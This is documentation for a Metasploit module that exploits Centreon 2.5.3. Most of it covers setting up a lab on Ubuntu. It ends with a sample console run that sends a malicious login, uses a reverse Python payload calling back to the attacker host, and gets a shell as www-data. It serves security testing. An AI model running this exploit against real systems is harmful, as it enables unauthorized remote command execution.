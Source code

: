 ## Vulnerable Application

1. [Exploit-db](https://www.exploit-db.com/apps/bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz)
2. Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

### Creating A Testing Environment

Creating a testing environment for this application contained many steps, so I figured I would document the process here.

  1. Create a fresh install of Ubuntu 16.04.  I used a LAMP install. My user was `centreon`
  2. Install php5.6 [askubuntu](http://askubuntu.com/questions/756181/installing-php-5-6-on-xenial-16-04)
```
sudo apt purge `dpkg -l | grep php| awk '{print $2}' |tr "\n" " "`
sudo add-apt-repository ppa:ondrej/php
sudo apt-get install php5.6
sudo apt-get install php5.6-mbstring php5.6-mcrypt php5.6-mysql php5.6-xml php5.6-gd php5.6-ldap php5.6-sqlite3
sudo apt-get install build-essential cmake librrd-dev libqt4-dev libqt4-sql-mysql libgnutls28-dev python-minimal
sudo apt-get install tofrodos bsd-mailx lsb-release mysql-server libmysqlclient-dev apache2 php-pear rrdtool librrds-perl libconfig-inifiles-perl libcrypt-des-perl libdigest-hmac-perl libgd-gd2-perl snmp snmpd libnet-snmp-perl libsnmp-perl
  select OK
  select No Configuration
sudo apt-get install snmp-mibs-downloader
```
  3. Enable php5.6 in Apache with `a2enmod`, disable php7.0 with `a2dismod`
```
a2enmod php5.6
a2dismod php7.0
```
  4. Restart apache with `sudo apache2ctl restart`
  5. Install [Nagios Plugins](https://assets.nagios.com/downloads/nagioscore/docs/nagioscore/3/en/quickstart-ubuntu.html) starting at step 6.  The plugins link is broken, utilize [nagios-plugins-2.1.1.tar.gz](http://www.nagios-plugins.org/download/nagios-plugins-2.1.1.tar.gz) instead
```
wget http://www.nagios-plugins.org/download/nagios-plugins-2.1.1.tar.gz
tar xvf nagios-plugins-2.1.1.tar.gz
cd nagios-plugins-2.1.1/
./configure
make
sudo make install
```
  5.1 If during make, you get an sslv3 method not found error (https://support.nagios.com/forum/viewtopic.php?f=35&t=36601&p=168235&hilit=SSLv3#p168235)
```
--- plugins/sslutils.c.orig   2016-01-14 20:02:06.419867000 +0100
+++ plugins/sslutils.c   2016-01-14 20:01:36.091492000 +0100
@@ -70,8 +70,13 @@
#endif
      break;
   case 3: /* SSLv3 protocol */
+#if defined(OPENSSL_NO_SSL3)
+      printf(("%s\n", _("CRITICAL - SSL protocol version 3 is not supported by your SSL library.")));
+      return STATE_CRITICAL;
+#else
      method = SSLv3_client_method();
      ssl_options = SSL_OP_NO_SSLv2 | SSL_OP_NO_TLSv1;
+#endif
      break;
   default: /* Unsupported */
      printf("%s\n", _("CRITICAL - Unsupported SSL protocol version."));
```
  6. Install [Centreon clib](https://documentation.centreon.com/docs/centreon-clib/en/latest/installation/index.html)
```
cd ~
git clone https://github.com/centreon/centreon-clib
cd centreon-clib/build
cmake .
make
sudo make install
```
  7. Install [Centreon Broker](https://documentation.centreon.com/docs/centreon-broker/en/2.11/installation/index.html)
```
cd ~
git clone https://github.com/centreon/centreon-broker
cd centreon-broker/build/
cmake -DWITH_STARTUP_DIR=/etc/init.d -DWITH_STARTUP_SCRIPT=sysv .
make
sudo make install
```
  8. Install [Centreon Engine](https://documentation.centreon.com/docs/centreon-engine/en/latest/installation/index.html)
```
cd ~
git clone https://github.com/centreon/centreon-engine
cd centreon-engine/build/
cmake -DWITH_STARTUP_DIR=/etc/init.d -DWITH_STARTUP_SCRIPT=sysv .
make
sudo make install
```
  9. Now install [Centreon Web](https://documentation.centreon.com/docs/centreon/en/2.5.x/installation/from_sources.html) but only the command line portion.
```
sudo mkdir /var/log/centreon-engine
cd ~
sudo pear install XML_RPC-1.4.5
(may need to install php-xml)
wget https://www.exploit-db.com/apps/bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz
tar vxf bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz
cd centreon-2.5.3
sudo ./install.sh -i
  <enter>
  q
  y
  y
  y
  y
  y
  <enter>
  y
  <enter>
  y
  <enter>
  y
  <enter>
  y
  <enter>
  y
  <enter>
  <enter>
  <enter>
  centreon
  <enter>
  /var/log/centreon-engine
  /home/centreon/nagios-plugins-2.1.1/plugins
  <enter>
  /etc/init.d/centengine
  /usr/local/bin/centengine
  /usr/local/etc/
  /usr/local/etc/
  /etc/init.d/centengine
  <enter>
  y
  y
  y
  <enter>
  y
  <enter>
  <enter>
  y
  y
  <enter>
  y
  y
  <enter>
  y
  <enter>
  <enter>
  y
  y
```
  10. Fix apache config
```
sudo cp /etc/apache2/conf.d/centreon.conf /etc/apache2/conf-available/
sudo sed -i 's/Order allow,deny/Require all granted/' /etc/apache2/conf-available/centreon.conf
sudo sed -i 's/allow from all//' /etc/apache2/conf-available/centreon.conf
sudo a2enconf centreon
sudo service apache2 reload
```
  11. Configure via website.  Browse to <ip>/centreon
```
next
next
select centreon-engine
  /usr/local/lib/centreon-engine
  /usr/local/bin/centenginestats
  /usr/local/lib/centreon-engine
  /usr/local/lib/centreon-engine
  /usr/local/lib/centreon-engine
  next
select centreon-broker
  /usr/local/lib/centreon-broker
  /usr/local/lib/cbmod.so
  /usr/local/lib/centreon-broker
  /usr/local/lib/centreon-broker
  /usr/local/lib/centreon-broker
  next
Pick whatever details about your user you want, next
Fill in mysql Root password, next
next
next
finish
```
## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/linux/http/centreon_useralias_exec`
  4. Do: `set payload`
  5. Do: `set rhost`
  6. Do: `check`
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

Just a standard run.
```
    msf > use exploit/linux/http/centreon_useralias_exec
    msf exploit(centreon_useralias_exec) > set payload cmd/unix/reverse_python
    payload => cmd/unix/reverse_python
    msf exploit(centreon_useralias_exec) > set lhost 192.168.2.229
    lhost => 192.168.2.229
    msf exploit(centreon_useralias_exec) > set rhost 192.168.2.85
    rhost => 192.168.2.85
    msf exploit(centreon_useralias_exec) > set verbose true
    verbose => true
    msf exploit(centreon_useralias_exec) > check
    [+] Version Detected: 2.5.3
    [*] 192.168.2.85:80 The target appears to be vulnerable.
    msf exploit(centreon_useralias_exec) > exploit
    [*] Started reverse TCP handler on 192.168.2.229:4444 
    [*] Sending malicious login
    [*] Command shell session 1 opened (192.168.2.229:4444 -> 192.168.2.85:36792) at 2016-06-11 20:44:57 -0400
    whoami
    www-data
    uname -a
    Linux centreon 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

